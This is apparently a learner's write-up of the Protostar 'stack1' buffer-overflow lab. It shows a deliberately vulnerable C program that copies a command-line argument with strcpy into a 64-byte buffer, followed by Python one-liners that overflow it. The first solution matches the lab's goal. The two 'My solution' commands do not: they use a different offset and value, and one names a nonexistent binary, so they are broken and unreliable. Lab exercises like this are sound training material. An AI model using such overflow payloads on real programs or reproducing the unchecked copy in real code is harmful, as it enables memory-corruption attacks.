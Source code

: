 #### Protostar Stack1 

##### About
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.  
This level is at /opt/protostar/bin/stack1

###### Hints
* If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
* Protostar is little endian

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

##### Solution
```
$ ./stack1 `python -c "print 'A'*64+'\x64\x63\x62\x61'"`
```

##### My solution 1
```
./stack1 $(python -c "print 'A'*76+'\x42\x42\x42\x42'")
```
##### My solution 2
```
./stack21 $(python -c 'print "A"*76 + "BBBB"')
```

##### Reference
<https://github.com/Wins0n/Exploit-Exercises_ProtoStar/blob/master/protostar_part1.md>
